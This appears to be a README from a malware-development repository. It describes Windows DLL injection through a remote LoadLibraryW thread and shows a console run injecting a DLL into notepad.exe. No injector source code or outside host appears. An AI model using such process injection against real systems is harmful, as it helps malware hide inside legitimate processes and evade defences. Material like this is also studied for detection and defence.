

# Process Injection - DLL Injection

The executable writes the DLL's path into the target process, then starts a remote thread that calls LoadLibraryW. 
Windows then loads the DLL from disk into the target process's address space and executes its initialization code.

```
dllInjection.exe C:\Users\MALDEV01\Desktop\inject.dll notepad.exe

[i] Injecting DLL: C:\Users\MALDEV01\Desktop\inject.dll Into Process: notepad.exe
[i] Found Process at PID: 6868
[i] pAddress Allocated at: 0x000001DE68D10000 Of Size: 74

[#] Press <Enter> to Write ...
[+] Successfully Written 74 Bytes

[#] Press <Enter> to Run ...
[i] Executing Payload ...
[+] DONE!

[#] Press <Enter> to Exit...
```

